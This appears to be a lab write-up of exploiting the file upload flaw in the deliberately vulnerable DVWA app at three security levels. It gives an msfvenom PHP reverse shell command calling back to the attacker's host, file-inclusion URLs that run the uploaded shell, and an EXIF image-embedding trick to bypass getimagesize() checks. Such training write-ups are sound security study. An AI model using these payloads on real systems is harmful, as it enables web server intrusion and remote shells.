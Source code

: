 ## Low

- For low I tried meterpeter shell for php, both staged and unstaged, it didn't work but then I tried simple reverse_shell and it worked.
- `msfvenom -p php/reverse_php LHOST=192.168.0.111 LPORT=4444 -f raw > shell_2.php`
- I was able to upload the shell_2.php without any issue, and got it executed by a file inclusion vulnerability at 
	- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell_2.php`


## Medium

- Since this time a .jpeg or .png extension was required, i renamed the same shell to `shell_2.php.jpeg`. And uploaded this bad boy.
- And since for medium level security file inclusion vulnerability has some security measures in place but it is still vulnerable to `file://` wrapper. I used that.
	- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=file://C:/xampp/htdocs/dvwa/hackable/uploads/shell_2.php.jpeg`


## High

- Here the upload functionality checks whether the upload is truly an image by using `getimagesize()` functionality. So we'll need to embed our shell code into an actual image file. Things got a bit tricky here. But eventually it can be explained in this way..
	- You'll need to embed shell code in image's exif data. It's easy to embed a small phpcode to verify if it will work before hand. Let's say image is white.png. So...
		- `exiftool white.png -Comment="<?php phpinfo(); ?>"` will do the job. 
		- Then if we upload this image and execute the using file inclusion vulnerability.
		- `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=file://C:/xampp/htdocs/dvwa/hackable/uploads/white.png` if this shows us phpinfo we can proceed ahead with embedding shell code.
	- Now to embed shell code via just command line was a bit tricky for me atleast so i automated it. Here I generate the same payload as before and then embed it at byte level. 
	- Also had to do some evasion techniques by php-commenting out problematic part.
	- `./image_shell.py -p php/reverse_php -lh 192.168.0.111 -lp 4444 -f raw -i white.png` and upload this image open a listener at 4444 `nc -lvnp 4444` and execute is using same file inclusion vulnerability `http://192.168.0.105/dvwa/vulnerabilities/fi/?page=file://C:/xampp/htdocs/dvwa/hackable/uploads/white.png` and Voila! 